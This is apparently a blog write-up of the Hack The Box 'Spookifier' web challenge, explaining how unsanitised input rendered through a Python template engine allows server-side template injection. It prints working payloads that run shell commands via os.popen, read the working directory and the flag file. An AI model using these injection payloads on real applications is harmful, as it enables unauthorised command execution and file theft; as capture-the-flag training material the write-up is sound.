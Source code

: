 ```yaml
---
title: Spookifer - Hack The Box
date: 2024-10-19
---
```


# Spookifier

![Spookifier](/ctf/hack-the-box/challenges/web/spookifier/spookifier.png)

## Challenge Description

In this challenge, we need to exploit a web application called **Spookifier**. The application is a Single Page
Application (SPA), featuring a form in the center of the page where users can submit their new Halloween name. After
submitting the form with the input `Dracula`, the application displays the result with different fonts, as shown below:

![Spookifier result of Dracula input](/ctf/hack-the-box/challenges/web/spookifier/spookifier-result-dracula.png)

## Code Review

Upon inspecting the source code of the application, we discovered that the backend is built using **Flask** in Python.
When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed
as a query parameter (`text`).

The server processes this input by calling a function named `spookify`, which then passes the input to another function
responsible for generating the formatted result. The function `generate_render` generates the final output, and its
implementation is as follows:

```python
def generate_render(converted_fonts):
    result = '''
        <tr>
            <td>{0}</td>
        </tr>
        
        <tr>
            <td>{1}</td>
        </tr>
        
        <tr>
            <td>{2}</td>
        </tr>
        
        <tr>
            <td>{3}</td>
        </tr>
    '''.format(*converted_fonts)
    
    return Template(result).render()
```

The `generate_render` function uses the `Template` class from the **Jinja2** templating engine to render the final
output. This indicates a potential vulnerability, as improper input sanitization can lead to a **Server-Side Template
Injection (SSTI)** attack.

## Proof of Concept (PoC)

To verify the SSTI vulnerability, we can inject a basic payload like `${7*7}` into the `text` parameter. If the
application is vulnerable, it will evaluate the expression and return the result of the calculation.

After injecting the payload, the server responded with the following output:

![Spookifier - POC](/ctf/hack-the-box/challenges/web/spookifier/spookifier-poc-ssti.png)

The result `49` confirms that the application is vulnerable to SSTI.

## Exploitation

Since we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To exploit the SSTI
vulnerability and read the flag, we first need to determine the current working directory by executing the `pwd`
command. We can use the following payload:

```python
${__import__('os').popen('pwd').read()}
```

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt`
file. The following payload reads the content of the file:

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

The result shows the flag:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We successfully retrieved the flag! You can now try this on the actual Hack The Box (HTB) server to obtain the real
flag.

![Spookifier - Flag](/ctf/hack-the-box/challenges/web/spookifier/spookifier-pwned.png)
